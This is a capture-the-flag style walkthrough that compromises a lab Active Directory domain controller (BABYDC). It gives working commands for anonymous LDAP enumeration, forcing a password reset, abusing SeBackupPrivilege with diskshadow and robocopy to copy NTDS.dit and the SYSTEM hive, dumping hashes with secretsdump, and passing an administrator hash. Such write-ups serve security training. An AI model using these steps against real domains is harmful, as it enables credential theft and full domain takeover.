








This document provides a step-by-step walkthrough of an Active Directory penetration test on the target machine (BABYDC). The purpose was to enumerate and exploit weaknesses in the environment to gain administrative access.

Tools Used

    Nmap: Network scanning and enumeration
    Netexec (nxc): LDAP and SMB enumeration
    smbpasswd: Password manipulation tool
    Evil-WinRM: Remote access for Windows machines
    Diskshadow: Volume shadow copy manipulation
    Robocopy: File transfer within Windows
    Secretsdump.py: Hash extraction from NTDS.dit
    
Summary of Attacks

    Network Enumeration: Identified open ports and services running on the target.
    LDAP Enumeration: Retrieved sensitive user information via anonymous bind.
    Password Change: Identified a valid user and changed their password to gain access.
    Privilege Escalation: Leveraged the SeBackupPrivilege to extract sensitive data (NTDS.dit and SYSTEM hive).
    Hash Dumping and Admin Access: Extracted NTLM hashes to gain administrative access and retrieve the final flag.
    Nmap de la box :

Enumeration

Using Nmap, open ports and services were identified:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```




A connection test revealed a valid connection via SMB without authentication but failed user or share enumeration:



Anonymous LDAP bind returned useful information about domain users:



LDAP Enumeration

Using the get-desc-users module in Netexec, further details about user accounts were retrieved:

nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  



4.3 Password Change and Privilege Verification

An error message revealed that Caroline.Robinson had a valid account but required a password reset. 


 
The password was reset to Password123 using:
smbpasswd -r 10.10.126.10 -U caroline.robinson 

Access was verified, and user privileges were checked using Netexec and the whoami /priv command:

nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 



The SeBackupPrivilege was identified, enabling access to sensitive files.
A shadow copy was created using Diskshadow, and the NTDS.dit and SYSTEM hive were extracted:

    Create a shadow copy:
raj.dsh contents:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```
unix2dos raj.dsh
```

Upload and execute commands via Evil-WinRM:
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


```
reg save hklm\system c:\Temp\system
```

Download files locally:```
download ntds.dit
download system
```

Hash Extraction and Privilege Escalation

The Secretsdump tool was used to extract NTLM hashes:
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```



Using the NT hash for the administrator account, final access was gained, and the last flag retrieved:

 nxc winrm 10.10.126.10 -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d -X "cat C:\Users\Administrator\Desktop\root.txt"
 

